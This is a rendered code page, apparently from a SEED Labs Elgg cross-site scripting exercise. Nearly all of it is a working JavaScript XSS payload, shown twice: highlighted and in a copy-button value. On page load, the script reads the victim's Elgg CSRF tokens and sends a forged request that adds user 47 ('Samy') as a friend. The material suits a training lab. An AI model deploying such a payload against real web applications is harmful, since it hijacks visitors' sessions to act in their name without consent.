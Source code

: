     <span class="pl-k">var</span> <span class="pl-v">Ajax</span> <span class="pl-c1">=</span> <span class="pl-c1">null</span><span class="pl-kos">;</span>
    <span class="pl-k">var</span> <span class="pl-s1">ts</span> <span class="pl-c1">=</span> <span class="pl-s">"&amp;__elgg_ts="</span> <span class="pl-c1">+</span> <span class="pl-s1">elgg</span><span class="pl-kos">.</span><span class="pl-c1">security</span><span class="pl-kos">.</span><span class="pl-c1">token</span><span class="pl-kos">.</span><span class="pl-c1">__elgg_ts</span><span class="pl-kos">;</span>
    <span class="pl-k">var</span> <span class="pl-s1">token</span> <span class="pl-c1">=</span> <span class="pl-s">"&amp;__elgg_token="</span> <span class="pl-c1">+</span> <span class="pl-s1">elgg</span><span class="pl-kos">.</span><span class="pl-c1">security</span><span class="pl-kos">.</span><span class="pl-c1">token</span><span class="pl-kos">.</span><span class="pl-c1">__elgg_token</span><span class="pl-kos">;</span>
    <span class="pl-c">//Construct the HTTP request to add Samy as a friend.</span>
    <span class="pl-k">var</span> <span class="pl-s1">sendurl</span> <span class="pl-c1">=</span>
      <span class="pl-s">"http://www.xsslabelgg.com/action/friends/add?friend=47"</span> <span class="pl-c1">+</span> <span class="pl-s1">ts</span> <span class="pl-c1">+</span> <span class="pl-s1">token</span><span class="pl-kos">;</span> <span class="pl-c">//FILL IN</span>
    <span class="pl-c">//Create and send Ajax request to add friend</span>
    <span class="pl-v">Ajax</span> <span class="pl-c1">=</span> <span class="pl-k">new</span> <span class="pl-v">XMLHttpRequest</span><span class="pl-kos">(</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
    <span class="pl-v">Ajax</span><span class="pl-kos">.</span><span class="pl-en">open</span><span class="pl-kos">(</span><span class="pl-s">"GET"</span><span class="pl-kos">,</span> <span class="pl-s1">sendurl</span><span class="pl-kos">,</span> <span class="pl-c1">true</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
    <span class="pl-v">Ajax</span><span class="pl-kos">.</span><span class="pl-en">setRequestHeader</span><span class="pl-kos">(</span><span class="pl-s">"Host"</span><span class="pl-kos">,</span> <span class="pl-s">"www.xsslabelgg.com"</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
    <span class="pl-v">Ajax</span><span class="pl-kos">.</span><span class="pl-en">setRequestHeader</span><span class="pl-kos">(</span><span class="pl-s">"Content-Type"</span><span class="pl-kos">,</span> <span class="pl-s">"application/x-www-form-urlencoded"</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
    <span class="pl-v">Ajax</span><span class="pl-kos">.</span><span class="pl-en">send</span><span class="pl-kos">(</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
  <span class="pl-kos">}</span><span class="pl-kos">;</span>
<span class="pl-kos">&lt;/</span><span class="pl-ent">script</span><span class="pl-kos">&gt;</span></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="<script type=&quot;text/javascript&quot;>
  window.onload = function () {
    var Ajax = null;
    var ts = &quot;&amp;__elgg_ts=&quot; + elgg.security.token.__elgg_ts;
    var token = &quot;&amp;__elgg_token=&quot; + elgg.security.token.__elgg_token;
    //Construct the HTTP request to add Samy as a friend.
    var sendurl =
      &quot;http://www.xsslabelgg.com/action/friends/add?friend=47&quot; + ts + token; //FILL IN
    //Create and send Ajax request to add friend
    Ajax = new XMLHttpRequest();
    Ajax.open(&quot;GET&quot;, sendurl, true);
    Ajax.setRequestHeader(&quot;Host&quot;, &quot;www.xsslabelgg.com&quot;);
    Ajax.setRequestHeader(&quot;Content-Type&quot;, &quot;application/x-www-form-urlencoded&quot;);
    Ajax.send();
  };
</script>
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>